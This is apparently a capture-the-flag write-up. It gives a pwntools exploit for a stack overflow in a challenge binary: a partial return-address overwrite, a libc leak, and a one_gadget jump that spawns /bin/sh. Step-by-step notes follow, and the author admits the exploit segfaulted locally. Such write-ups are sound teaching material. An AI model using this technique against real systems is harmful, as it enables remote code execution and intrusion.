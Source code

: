# Solution

```
# pwntools template...
# glibc: libc6_2.27-3ubuntu1_amd64


#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = remote("nc.eonew.cn", 10004)

exploit = fit({136: b"\x6f"})

io.sendline(exploit)

resp = io.recvline()
resp = resp.strip()[136:]
libc_leak = u64(resp.ljust(8, b'\x00'))
log.success("libc leak: {}".format(hex(libc_leak)))
libc_start_main = libc_leak - 0xbf
log.success("libc_start_main @ {}".format(hex(libc_start_main)))
libc.address = libc_start_main - 0x021ab0
log.success("libc base: {}".format(hex(libc.address)))

rc = ROP([exe,libc])
rc.raw(p64(libc.address + 0x4f322))

exploit2 = fit({136: rc.chain()})

io.sendline(exploit2)

io.interactive()
```

# Partial overwrite -> return to `__libc_start_main` + leak -> one_gadget

1. Partially overwrite the return address during the STDIN phase. This changes the least significant byte to be 0x6f. This causes RIP to point to an earlier part of the `__libc_start_main` function- which allows you to get another input (restarting the STDIN phase).

2. This gets you the leak for the middle of  `__libc_start_main` which is `0xbf` in the middle of the function. `__libc_start_main` is `0x21ab0` from the base of `glibc` here too. You now have a glibc base address.

3. There is a one_gadget in `libc.address + 0x4f322` that can be used, where the requirements are already met:

```
0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL
```

4. You should have a shell!

# Issues

* I had a lot of trouble dealing with using a custom glibc. I need to work on this because it's really hard to make it all work especially with special linkers. I couldn't get the exploit to work locally- it segfaulted. However, in `gdb`, I saw that `/bin/dash` was forked so I assume it worked.

* `scanf()` will stop reading at a whitespace or EOL or null byte. Therefore, you can't really write a multiple 64-bit address with leading `0x00` bytes. You can't make a whole ROP chain because of this. I tried to run `gets()` when I got control of RIP but that segfaulted.

